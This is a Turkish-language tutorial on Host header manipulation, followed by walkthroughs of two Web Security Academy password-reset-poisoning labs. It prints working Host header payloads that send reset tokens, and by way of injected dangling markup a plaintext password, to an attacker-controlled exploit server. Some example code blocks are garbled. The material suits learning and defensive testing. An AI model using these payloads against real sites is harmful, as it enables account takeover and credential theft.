# 0x13 | Host Header Manipulations

# Host Header Manipulations Temelleri

Bu konuya giriş yapmadan önce Modern Web Dünyasında nelerin olup bittiğini anlamamız gerekmektedir. Bunun için de daha önce ilgili yazıları ele almıştık. Dünya üzerinde domain ve ip sayısını kıyasladığımızda domain sayısının daha fazla olduğunu söyleyebiliriz. Bu yüzden de bir ip adresi üzerinde birden fazla domain’in servis olarak hayatını sürdürmesi gerekmektedir. Bunun için de shared hosting yapıları mevcuttur. Aslında web servisleri (apache, nginx, tomcat) ve bunların önünde bulunan ters proxy’ler (reverse proxy) için `host` alanı ile ilgili ilişkileri mevcuttur. 

Örneğin, bir kullanıcı "[www.example.com](http://www.example.com/)" adresine bir HTTP isteği gönderdiğinde, isteğin başlıklarında `"Host: [www.example.com](http://www.example.com/)"` bilgisi bulunur. Bu Host bilgisi, sunucunun bu isteği hangi web sitesine yönlendireceğini belirlemede önemli bir rol oynar.

Nginx gibi bir web sunucu veya reverse proxy, gelen bu isteğin Host başlığına bakarak, bu isteği hangi uygulamaya yönlendireceğini belirler. Yani, nginx bu bilgiyi kullanarak gelen isteği doğru uygulama sunucusuna yönlendirir. Bu, aynı web sunucusu üzerinde barındırılan farklı alan adlarına sahip birden çok web sitesini veya uygulamayı ayırt etmek için yaygın bir yöntemdir.

Bu şekilde, aynı IP adresi veya port üzerinde çalışan farklı domainlere hizmet verebilirsiniz. Host header manipülasyonu, gelen isteğin doğru uygulamaya yönlendirilmesini sağlar, böylece aynı IP ve portu paylaşan farklı siteler veya uygulamalar birbirinden ayrılabilir.


Buradaki atak vektörlerini düşünmeye başladığımızda ise odaklanmamız gereken yer buradaki uygulamalarda kullanılan framework’ler olacaktır. Framework’lerin de host alanını kullandıkları bir nokta vardır. Bu framework'ler, kullanıcıdan gelen HTTP isteklerini işlerken Host başlığını kullanabilirler. Kullanıcının request ettiği url’in tamamına backend tarafında erişme ihtiyacımız oluşabilir. Örneğin `Request.Url.ToString()` gibi fonksiyonlar frameworkler tarafından çok kullanılır. Static dosyaların full url’lerinin template engine’larda oluşturulması ile ilgili bir konudur bu ihtiyaç. Bu tip özel fonksiyonlar aslında HTTP Request’inin Host alanındaki bilgiyi almaktadırlar. Bu tür bilgileri aldıkları için de siz bu fonksiyonları kullandığınızda bu fonksiyonların döndüğü değer içinde kullanıcının kontrol edebildiği bir değer vardır ve bu değer de genellikle Host alanı üzerinden olur. 

Eğer uygulamanın bu anına kadar gelen noktalardan geçerken sorun çıkarmayacak bir Host alanı değeri yazarsanız ve buradaki uygulama da Host  alanını kullanarak ekrana bir şeyler yazdırıyor ise burada XSS meydana gelebilir. Hatta buradaki uygulamanın ürettiği ve kullanıcıya verdiği HTML içerik cache mekanizmaları tarafından cache’leniyor ve birden fazla kullanıcıya aynı içerik sunuluyor ise burada Stored XSS zafiyeti de meydana gelebilir. 



Ayrıca ön taraftaki Nginx, gelen HTTP isteğinin Host başlığına bakarak, bu isteği hangi uygulamaya yönlendireceğini belirler. Eğer bu Host başlığı, sadece belirli bir domain’i içeriyorsa, bu durum bir güvenlik açığı oluşturabilir.

Örneğin, normalde Nginx, sadece belirli bir domain’e sahip olan request’leri belirli bir uygulamaya yönlendirir:

```vbnet
GET /sayfa HTTP/1.1
Host: uygulama.com
```

Ancak, eğer bu Host başlığını manipüle edebilirseniz:

```sql
GET /sayfa HTTP/1.1
Host: local-uygulama.com
```

Nginx, bu manipüle edilmiş Host başlığına göre isteği farklı bir uygulamaya yönlendirebilir. Bu durumda, aslında dış dünyadan erişilememesi gereken bir local uygulamaya erişim kazanmış olabilirsiniz.

Bu, özellikle Nginx veya başka bir reverse proxy kullanılıyorsa ve güvenlik kuralları doğru bir şekilde ayarlanmamışsa ortaya çıkabilir. Bu nedenle, Nginx konfigürasyonunun güvenlik açısından gözden geçirilmesi, sadece belirli ve güvenli domainlere yönlendirme yapılması, manipülasyonları önleyen doğrulama mekanizmalarının eklenmesi ve güvenlik politikalarının doğru bir şekilde uygulanması önemlidir.

# Lab: Basic password reset poisoning

Bu laboratuvarda şifre sıfırlama zehirleme saldırısına karşı güvenlik zaafiyeti bulunmaktadır. Carlos kullanıcısı, aldığı e-postalardaki herhangi bir bağlantıya dikkatsizce tıklamaktadır. Labı çözmek için Carlos'un hesabına giriş yapmanız gerekmektedir.

Ayrıca, kendi hesabınıza giriş yapmak için `wiener:peter` kullanıcı adı ve şifre bilgilerini kullanabilirsiniz. Bu hesaba gönderilen e-postaları, saldırı sunucusundaki e-posta client’ı üzerinden okuyabilirsiniz.



Uygulamaya giriş yaparak incelemeye başlıyoruz. Bu lab ortamını çözerken ihtiyacımız olan bazı bilgileri burada bulabilirsiniz. 

Bir web uygulamasında şifrenizi sıfırlamak istediğinizde genellikle şu şekilde bir e-posta alırsınız;

```jsx
Merhaba İlker,

Parolanızı sıfırlama linki aşağıdadır.

https://example.com/password-reset/gfgkfldfjkdlsgşjkdshljgadklgşjfaklgş
```

Uygulama burada e-posta göndereceği zaman bir HTML’i render eder. HTML içerisinde ise full URL oluşturması gerekmektedir. Full URL oluşturabilmesi için de daha önce .net üzerinden verdiğimiz örnekte olduğu gibi `Request.Url.ToString()`  tarzında fonksiyonlar kullanması gerekir. Parola sıfırlama URL’i için de lazım olan  host alanı kullanıcının gönderdiği Request’ten alınır. 

Uygulamamızda da parola sıfırlama özelliğini kullandığımızda ve burpsuite ile incelediğimizde gelen e-posta içeriği bu şekildedir. Bizim burada yapmamız gereken şey buradaki domain alanını manipüle edip kendi domain’imiz ile değiştirmek olacaktır. Böylece kullanıcı link’e tıkladığında bize gelecek ve token’ı elde etmiş olacağız. 


Web uygulamalarında kullanılan framework’ler, belirli bir sayfanın URL'sini oluşturmak için URL oluşturma fonksiyonlarını kullanır. Bu fonksiyonlar genellikle mevcut Host bilgisini de içerir. Dolayısıyla host alanına bize ait olan bir domain yazdığımızda artık gelen e-posta içerisinde bizim yazdığımız domain’in geldiğini görebiliriz. 


Lab’ı çözmek için de yapmamız gereken ve bizden istenen şey Exploit Server’ın bize sunduğu domain alanını kullanarak Host header’ını değiştirmek olacaktır. Öncelikle parola sıfırlama için bir Request oluşturarak bunu repeater aracılığıyla düzenleyelim.



Daha sonra `carlos` kullanıcısı için parola sıfırlama isteği oluşturuyoruz. 


Repeater aracılığıyla mail adresimizi aşağıdaki gibi carlos olacak şekilde ayarlıyoruz. Host alanına da exploit server için verilen domain’i yazıyoruz. Bu kısımda en önemli bilgi Host alanında verdiğimiz değerin sonuna `?`  koymamızdır. Bunun sebebi ise kalan kısmın query string olarak değerlendirilmesini ve request’in iletilmesiyle ilgili bir sorun yaşanmamasını sağlamaktır. 

```jsx
Host: exploit-0a7200fe046e74d981a72e1201f800aa.exploit-server.net/exploit?
```



Exploit server log’larını incelediğimizde token’ın elde edildiğini görebiliyoruz bu şekilde;


Elde ettiğimiz token’ı kullanarak şifre sıfırlama sayfasına gidiyoruz:

```jsx
https://0aa50047047774b681f92f5f009c0089.web-security-academy.net/forgot-password?temp-forgot-password-token=g71132g0ehh9j81736e0mbjhtf3jefft
```



Yeni şifremizi oluşturuyoruz;



Şifremizi sıfırladıktan sonra artık carlos kullanıcısı ile sisteme giriş yapabiliriz.



Ve artık lab çözülmüş oldu…


# Lab: Password reset poisoning via dangling markup



Lab ortamına eriştikten sonra `şifremi unuttum` seçeneği üzerinden devam edelim ve `wiener` kullanıcısı için bir şifre sıfırlama isteğinde bulunalım.


Daha sonra exploit server üzerinden erişebildiğimiz `e-mail client`’ına gidelim.



Burada gelen mesajın raw halini incelediğimizde aşağıdaki gibi bir yapıyla karşılaşırız. Yani kullanıcıya giden e-posta içeriğinin HTML yapısı bu şekildedir. Bu yapıyı incelediğimizde parolasını sıfırlamak isteyeyn kişiye yeni parolanın gönderildiğini görmekteyiz;

```html
Sent:     2024-02-23 13:10:02 +0000
From:     no-reply@0aba0048049a4bad865da370002d00bc.web-security-academy.net
To:       wiener@exploit-0af0004b046e4be8868da274014a009e.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0aba0048049a4bad865da370002d00bc.web-security-academy.net/login'>click here</a> to login with your new password: hXnddvQ5H4</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```


Burada a tag’inin href değerini öyle bir değer ile değiştirmeliyiz ki bu kısım parolayı taşıyan bir URL’e dönüşmeli. Yani buradaki link’e tıkladığında bize parolanın da gelmesi gerekiyor. Bu kısma gelmeden önde `Dangling markup`  konusunu anlamamız gerekmektedir. 

`Dangling Markup`, bir metin veya belge içinde yer alan, ancak tamamlanmamış veya uyumsuz bir HTML veya diğer işaretleme diline ait etiketleri ifade eder. Bu etiketler, genellikle başlangıç etiketi açıldıktan sonra kapatılmamış veya kapatılması gereken bir etiketin başlangıcı olmayan durumları temsil eder.

Örneğin yukarıdaki yapıyı bu şekilde değiştirebiliriz, eklediğimiz bu yeni kısım ile birlikte HTML içeriğin kalan tüm kısmı img etiketine bağlanmış olacaktır;

```html
payload: '></a> Hello!</p>
<p>
  Please
  <a
    href="https://paylaod/login"
    >click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```

Dolayısıyla buradaki yapımız şu hale gelecektir;

```html
<p>Hello!</p>
<p>
  Please
  <a
    href="https://'></a> click here</a
  >
  to login with your new password: hXnddvQ5H4
</p>
<p>Thanks,<br />Support team</p>
<i>This email has been scanned by the MacCarthy Email Security service</i>

```

Artık burada kullandığımız payload değerimizi lab uygulamasında da deneyebiliriz. Host header’ı için yeni değerimiz buradaki payload olacak şekilde düzenleme yapacağız. 



Ancak bu işlemi yapmak istediğimizde gateway buna izin vermemektedir. 



Bu kısımda hatanın neden oluştuğunu ve kaynağını bulmamız gerekmektedir. Dolayısıyla Host alanında verdiğimiz değerde izin verilmeyen karakteri bulmalıyız. Yaptığımız incelemeler ve denemeler neticesinde Host alanı içerisinde tek tırnak karakterine izin verilmediğini görüyoruz. 



Burada URL Parser’ların nasıl çalıştığını bilip buna göre hareket etmemiz gerekmektedir. Ön taraftaki gateway yani reverse proxy bu Host alanını parse etmektedir. Daha sonra da application bu Host alanını kullanmaktadır. Burada şu şekilde bir domain tanımı yapabilirsiniz; bu da doğrulanmış (valid) bir domain tanımlamasıdır. 

```html
username:password@mdisec.com:80
```

Örneğin Host alanına aşağıdaki gibi bir değer koyduğumuzda `tek tırnak işareti (’)` ile ilgili bir sorun oluşmamaktadır. Burada URL Parser 80 portundan önceki kısmı doğrular ve web uygulaması ise verdiğimiz Host alanının tamamını kullanır. 



Bu isteği gönderdikten sonra `exploit server` üzerinden `e-mail client`’ını kontrol edecek olursak istediğimiz sonucun buraya geldiğini görebiliriz. 


Dolayısıyla bu kısma payload’ımızı yerleştirip request gönderiyoruz. Domain olarak da exploit server üzerinde bize verilen domain adresini girmemiz gerekmektedir. Nihai host alanı değerimiz de bu şekilde olacaktır;

```html
Host: 0a080033034fe334815adf1400b6007d.web-security-academy.net:80'></a> <img src="https://exploit-0a9c002d03d5e3dd818ade8101a40022.exploit-server.net/exploit/?a=
```


Bu request’i gönderdikten sonra `exploit server` üzerinden `access log`’ları inceliyoruz. Yaptığımız incelemeler neticesinde ise `carlos` kullanıcısı için şifrenin geldiğini görmekteyiz;


Ve artık bu şifre ile Carlos kullanıcısının hesabına giriş yapabiliriz. Lab ortamını da bu şekilde çözmüş olduk…



# Kaynaklar:

1. [https://www.youtube.com/watch?v=I6LZ6e5O-Ao](https://www.youtube.com/watch?v=I6LZ6e5O-Ao)
